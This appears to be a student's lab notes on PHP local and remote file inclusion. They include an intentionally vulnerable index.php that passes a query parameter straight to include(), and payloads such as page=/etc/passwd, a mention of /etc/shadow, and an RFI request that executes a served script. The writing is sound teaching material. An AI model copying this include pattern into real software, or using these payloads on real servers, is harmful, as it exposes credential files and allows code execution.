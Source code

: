 ```yaml
---
layout: /src/layouts/MarkdownLayout.astro
---
```


# Week 2

## File Inclusion Testing w/ PHP Server
For the 2.2 class activity, we made a sample PHP script that lets you grab arbitrary system files, but shows how you could end up with this vulnerability while having the best intentions.

Here's index.php:
```php
<a href="index.php?page=page1.html"><button>page1</button></a><br/>
<a href="index.php?page=page2.html"><button>page2</button></a><br/>
<a href="index.php?page=page3.html"><button>page3</button></a><br/>
<?php
$page = $_GET['page'];
echo "<div>";
if(isset($page))
{
 
  include("$page");
}
else
{
  echo "<p>select a page</p>";
}
echo "</div>";
?>
```

As you can see, the purpose is to display other pages within the index, which is something a real developer might want to do, but you can also see that our developer has made no effort to stop you from just... putting other paths in it.

for example, if you went to `index.php?page=/etc/passwd`, you can view that file. If you're really lucky, and the web admin has made PHP and/or the web server run as `root`, you could probably even grab `/etc/shadow`

Then, for the second part of this activity, we grabbed `php.ini` from `/etc/php/cli`, and enabled `allow_url_include`, which then lets us do silly things like: `index.php?page=http://127.0.0.1:8000/rfi.php`, and then that PHP file gets pulled, and also executed!

In my case, I just made `rfi.php` execute `pwd && whoami`, but you could also be malicious, at least within whatever permissions PHP is running as (in this case, we were using `php -S`, so `rm`'ing anything would have nuked my own personal files :( )

Useful commands for this lab were:
* `php -S 127.0.0.1:9000` - serve PHP files in CWD on port 9000
* `php -S 127.0.0.1:9000 -c php.ini` - same thing but with a custom `php.ini` to disable what are, I feel, pretty sane defaults actually
* `python -m http.server 8000` - serve CWD files with HTTP on port 8000 (used to pretend that `rfi.php` was some remote script that I wrote, in order to test web content inclusion as discussed above) 
